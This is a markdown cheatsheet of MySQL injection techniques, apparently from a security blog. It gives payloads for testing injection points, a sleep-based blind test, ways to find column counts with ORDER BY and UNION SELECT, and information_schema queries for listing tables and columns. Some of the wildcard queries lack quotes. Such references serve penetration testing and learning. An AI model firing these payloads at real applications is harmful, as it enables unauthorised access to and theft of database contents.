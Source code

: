 ```yaml
---
title: MySQL Injection Cheatsheet
date: 2020-07-29 13:10:00
tags: [sqli, sql injection, cheatsheet, web attacks]
---
```


# MySQL Injection cheatsheet

## Testing checklist 

| Name | Character | Function |
| ------ | ----------- | ---------- |
| Single quote | `'` | String terminator |
| Semi colon | `;` | Query terminator |
| Comment | `-- -` | Removes the rest of the query |
| Comment | `#` | Removes the rest of the query |
| Comment | `/*comment this*/` | Can be placed anywhere in a query, used for bypassing weak filters |
| Single quote with a comment | `'-- -` | End a string and remove rest of the query |
| Single quote, semi colon and a comment | `';-- -` | End a string, end query, and remove rest of the query |
| OR operator | `OR 1=1-- -` | For integers, `true` test |
| OR operator | `OR 1=2-- -` | For integers, `false` test |
| OR operator | `' OR '1'='1'-- -` | For strings, `test` test |
| AND operator | `AND 1=1-- -` | For integers, `true` test |
| AND operator | `AND 1=2-- -` | For integers, `false` test |
| AND operator | `' AND '1'='1'-- -` | For strings, `true` test |
| Arithmetic | `?id=2-1` | For integers, arithmetic operation would load the resultant post |
| Sleep function | `OR sleep(5)-- -` | Blind test |

## Functions

| Function | Description |
| ------ | ------------- |
| `database()` | Get the name of the working database | 
| `user()` | Get the name of the user operating on the working database |
| `version()` | MySQL version | 
| `concat()` | Concatenate two or more strings per row | 
| `group_concat()` | Concatenate all the strings in one row | 
| `substring('string'/<column_name>,<offset>,<length>)` | Get a part of the value of a string or column |
| `ord()` | Convert the value to ordinal (decimal) | 


## Number of Columns

| Method | Description | 
| ------ | ---------- |
| `ORDER BY 3-- -` | For numbers. If column index provided exceeds the number of column present in the table, there will be an error |
| `' ORDER BY 3-- -` | For string. If column index provided exceeds the number of column present in the table, there will be an error |
| ` UNION SELECT 1,2,3-- -` | For numbers. It will throw an error till right number of columns haven't been "SELECT"ed |

## Database Contents
*Works with UNION queries*

Get the tables present in your working database:
``` SQL
SELECT table_name FROM information_schema.tables WHERE table_schema=database()
```

Once you get the tables, you can get the columns from those tables:

``` SQL
SELECT column_name FROM information_schema.columns WHERE table_name='x'
```

## Wildcards:

Get any table which consists the term "user" anywhere:

``` SQL
SELECT table_name FROM information_schema.tables WHERE table_name like %user%
```

Get any column which consists the term "user" in it:

``` SQL
SELECT column_name FROM information_schema.columns WHERE column_name like %user%;

/* Get columns along with its respective tables */
SELECT GROUP_CONCAT(column_name,0x3a,table_name,'\r\n') FROM information_schema.columns WHERE column_name like %user%;
```


## Fin 

If you found some mistake, or would like me to add something, feel free to contact me :)

Other DB SQL injection cheatsheets will be added soon.